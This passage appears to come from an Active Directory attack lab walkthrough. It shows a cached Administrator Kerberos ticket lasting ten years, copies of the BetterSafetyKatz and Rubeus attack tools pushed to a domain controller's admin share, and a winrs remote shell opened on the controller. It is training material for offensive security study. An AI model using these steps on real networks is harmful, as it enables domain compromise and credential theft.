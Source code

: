 Review chaed tickets:
``
C:\Windows\system32>klist

Current LogonId is 0:0x738a20d

Cached Tickets: (2)

#0>     Client: Administrator @ eu.local
        Server: krbtgt/eu.local @ eu.local
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x40e00000 -> forwardable renewable initial pre_authent
        Start Time: 3/3/2023 11:37:46 (local)
        End Time:   2/28/2033 11:37:46 (local)
        Renew Time: 2/28/2033 11:37:46 (local)
        Session Key Type: AES-256-CTS-HMAC-SHA1-96
        Cache Flags: 0x1 -> PRIMARY
        Kdc Called:

#1>     Client: Administrator @ eu.local
        Server: ldap/EU-DC.eu.local @ EU.LOCAL
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x40a50000 -> forwardable renewable pre_authent ok_as_delegate name_canonicalize
        Start Time: 3/3/2023 11:37:51 (local)
        End Time:   3/3/2023 21:37:51 (local)
        Renew Time: 3/10/2023 11:37:51 (local)
        Session Key Type: AES-256-CTS-HMAC-SHA1-96
        Cache Flags: 0
        Kdc Called: EU-DC.eu.local
``
Copy binaries to eu-dc.eu.local:

```
C:\Windows\system32>echo F | xcopy C:\AD\Tools\BetterSafetyKatz.exe \\eu-dc.eu.local\C$\Users\Public\BetterSafetyKatz.exe /Y
Does \\eu-dc.eu.local\C$\Users\Public\BetterSafetyKatz.exe specify a file name
or directory name on the target
(F = file, D = directory)? F
C:\AD\Tools\BetterSafetyKatz.exe
1 File(s) copied

C:\Windows\system32>echo F | xcopy C:\AD\Tools\Rubeus.exe \\eu-dc.eu.local\C$\Users\Public\Rubeus.exe /Y
Does \\eu-dc.eu.local\C$\Users\Public\Rubeus.exe specify a file name
or directory name on the target
(F = file, D = directory)? F
C:\AD\Tools\Rubeus.exe
1 File(s) copied

```
Accesss to eu-dc.eu.local:

```
C:\Windows\system32>winrs -r:eu-dc.eu.local cmd
Microsoft Windows [Version 10.0.17763.3650]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Users\Administrator>hostname
hostname
EU-DC

C:\Users\Administrator>ipconfig
ipconfig

Windows IP Configuration


```